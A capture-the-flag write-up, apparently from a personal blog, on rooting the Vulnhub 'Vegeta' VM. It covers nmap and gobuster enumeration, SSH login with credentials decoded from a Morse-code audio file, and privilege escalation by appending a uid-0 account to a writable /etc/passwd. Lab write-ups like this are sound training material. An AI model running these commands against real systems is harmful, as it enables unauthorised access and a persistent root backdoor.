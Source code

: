 ```yaml
---
title: Vulnhub - Vegeta
description: My writeup on Vegeta box.
categories:
 - vulnhub
tags: vulnhub morse gobuster etcpasswd
---
```


![](https://static2.cbrimages.com/wordpress/wp-content/uploads/2020/04/perfected-super-saiyan-blue-vegeta.jpg)

Hi all, let's pwn it!

You can find the machine there > [Vegeta](https://www.vulnhub.com/entry/vegeta-1,501/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.7
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-16 17:54 EEST
Nmap scan report for vegeta.zte.com.cn (192.168.1.7)
Host is up (0.00018s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:6A:20:00 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.34 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-16 17:55 EEST
Nmap scan report for vegeta.zte.com.cn (192.168.1.7)
Host is up (0.00038s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f:31:30:67:3f:08:30:2e:6d:ae:e3:20:9e:bd:6b:ba (RSA)
|   256 7d:88:55:a8:6f:56:c8:05:a4:73:82:dc:d8:db:47:59 (ECDSA)
|_  256 cc:de:de:4e:84:a8:91:f5:1a:d6:d2:a6:2e:9e:1c:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:6A:20:00 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's run `gobuster` on it:

```
$ gobuster dir -q -u http://$ip/ -w /root/Documents/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,txt,html -o gobuster.txt
/index.html (Status: 200)
/img (Status: 301)
/login.php (Status: 200)
/image (Status: 301)
/admin (Status: 301)
/manual (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
/bulma (Status: 301)
```

## Decoding morse code audio - shell as trunks

`/bulma` gives us a .wav file let's download it and listen to it.

```
$ wget -q http://192.168.1.7/bulma/hahahaha.wav
```

All we can hear is "beep boop" that's probably morse code. I found an online [decoder](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)

![](https://i.imgur.com/SZP2Cig.png)

`TRUNKS PASSWORD : US3R(S IN DOLLARS SYMBOL)` 

That's probably a system user and his password. Let's give it a go with ssh:

```
$ sshpass -p 'u$3r' ssh trunks@$ip 'ls -la'
total 28
drwxr-xr-x 3 trunks trunks 4096 Jun 28 21:32 .
drwxr-xr-x 3 root   root   4096 Jun 28 17:37 ..
-rw------- 1 trunks trunks  382 Jun 28 21:36 .bash_history
-rw-r--r-- 1 trunks trunks  220 Jun 28 17:37 .bash_logout
-rw-r--r-- 1 trunks trunks 3526 Jun 28 17:37 .bashrc
drwxr-xr-x 3 trunks trunks 4096 Jun 28 19:45 .local
-rw-r--r-- 1 trunks trunks  807 Jun 28 17:37 .profile
```

## trunks -> root

Perfect, now privesc is simple. We have to exploit writable `/etc/passwd`:

```
trunks@Vegeta:~$ ls -la /etc/passwd
-rw-r--r-- 1 trunks root 1486 Jun 28 21:23 /etc/passwd
```

Let's generate a password first:

```
$ openssl passwd -6 -salt xyz pwned    
$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1
```

Now the format of `/etc/passwd` is this:

`r000t:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0:comment:/root:/bin/bash`

Let's add it:

```
trunks@Vegeta:~$ echo 'r000t:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0:comment:/root:/bin/bash' >> /etc/passwd
trunks@Vegeta:~$ su - r000t
Password: 
root@Vegeta:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

The flag:

```
root@Vegeta:~# cat root.txt 

Hurray you got root

Share your screenshot in telegram : https://t.me/joinchat/MnPu-h3Jg4CrUSCXJpegNw
```

Silly :P
